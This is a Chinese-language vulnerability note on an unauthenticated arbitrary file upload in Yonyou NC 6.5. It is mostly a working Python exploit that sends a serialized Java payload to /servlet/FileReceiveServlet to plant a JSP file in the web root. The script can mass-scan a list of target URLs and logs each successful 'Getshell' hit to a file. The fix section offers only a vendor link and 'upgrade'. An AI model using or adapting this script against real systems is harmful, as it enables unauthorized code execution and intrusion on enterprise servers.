

### 一 漏洞描述
用友NC是一款企业级管理软件，在大中型企业广泛使用。实现建模、开发、继承、运行、管理一体化的IT解决方案信息化平台。用友NC 为C/S 架构，使用JAVA编程语言开发，客户端可直接使用UClient，服务端接口为HTTP。

用友NC6.5的某个页面，存在任意文件上传漏洞。漏洞成因在于上传文件处未作类型限制，未经身份验证的攻击者可通过向目标系统发送特制数据包来利用此漏洞，成功利用此漏洞的远程攻击者可在目标系统上传任意文件执行命令。

### 二 漏洞利用
poc  
```
import requests
import threadpool
import urllib3
import sys
import argparse
 
urllib3.disable_warnings()
proxies = {'http': 'http://localhost:8080', 'https': 'http://localhost:8080'}
header = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "https://google.com",
}
 
def multithreading(funcname, filename="url.txt", pools=5):
    works = []
    with open(filename, "r") as f:
        for i in f:
            func_params = [i.rstrip("\n")]
            works.append((func_params, None))
    pool = threadpool.ThreadPool(pools)
    reqs = threadpool.makeRequests(funcname, works)
    [pool.putRequest(req) for req in reqs]
    pool.wait()
 
def wirte_targets(vurl, filename):
    with open(filename, "a+") as f:
        f.write(vurl + "\n")
        return vurl
    
def exp(u):
    uploadHeader = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Content-Type": "multipart/form-data;",
        "Referer": "https://google.com"
    }
    uploadData = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x02\x74\x00\x09\x46\x49\x4c\x45\x5f\x4e\x41\x4d\x45\x74\x00\x09\x74\x30\x30\x6c\x73\x2e\x6a\x73\x70\x74\x00\x10\x54\x41\x52\x47\x45\x54\x5f\x46\x49\x4c\x45\x5f\x50\x41\x54\x48\x74\x00\x10\x2e\x2f\x77\x65\x62\x61\x70\x70\x73\x2f\x6e\x63\x5f\x77\x65\x62\x78"
    shellFlag="t0test0ls"
    uploadData+=shellFlag
    try:
        req1 = requests.post(u + "/servlet/FileReceiveServlet", headers=uploadHeader, verify=False, data=uploadData, timeout=25)
        if req1.status_code == 200 :
            req3=requests.get(u+"/t00ls.jsp",headers=header, verify=False, timeout=25)
 
            if  req3.text.index(shellFlag)>=0:
                printFlag = "[Getshell]" + u+"/t00ls.jsp"  + "\n"
                print (printFlag)
                wirte_targets(printFlag, "vuln.txt")
    except :
        pass
    #print(printFlag, end="")
 
 
if __name__ == "__main__":
    if (len(sys.argv)) < 2:
        print('useage : python' +str(sys.argv[0]) + ' -h')
    else:
        parser =argparse.ArgumentParser()
        parser.description ='YONYOU UC 6.5 FILE UPLOAD!'
        parser.add_argument('-u',help="url -> example [url]http://127.0.0.1[/url]",type=str,dest='check_url')
        parser.add_argument('-r',help="url list to file",type=str,dest='check_file')
        args =parser.parse_args()
        if args.check_url:
            exp(args.check_url)
        
        if(args.check_file):
            multithreading(exp, args.check_file, 8)
```

生成tools.jsp文件


### 三 漏洞修复
1 官方补丁  https://www.yonyou.com/
2 升级

> 参考链接  
> https://blog.csdn.net/Adminxe/article/details/111177066
